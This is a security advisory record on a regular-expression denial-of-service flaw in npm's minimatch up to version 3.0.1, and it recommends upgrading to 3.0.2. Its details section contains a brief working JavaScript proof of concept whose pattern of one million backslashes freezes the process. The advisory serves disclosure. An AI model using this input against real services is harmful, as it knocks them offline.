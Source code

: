 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Nick Starke
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/minimatch
Review-Date: '2016-06-20'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Recommendation: Updated to version 3.0.2 or greater
### Details
Minimatch is a minimal matching utility that works by converting glob expressions into JavaScript `RegExp` objects.  The primary function, `minimatch(path, pattern)` is vulnerable to ReDoS in the `pattern` parameter.  This is because of the regular expression on line 521 of minimatch.js: `/((?:\\{2})*)(\\?)\|/g,`.  The problematic portion of the regex is `((?:\\{2})*)` which matches against `\\`.  A proof of concept is as follows: ``` var minimatch = require(“minimatch”);  // utility function for generating long strings var genstr = function (len, chr) {   var result = “”;   for (i=0; i<=len; i++) {     result = result + chr;   }   return result; }  var exploit = “[!” + genstr(1000000, “\\”) + “A”;  // minimatch exploit. console.log(“starting minimatch”); minimatch(“foo”, exploit); console.log(“finishing minimatch”); ```
<br><br>• Affected Versions: <=3.0.1
<br>• Patched Versions: >=3.0.2
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
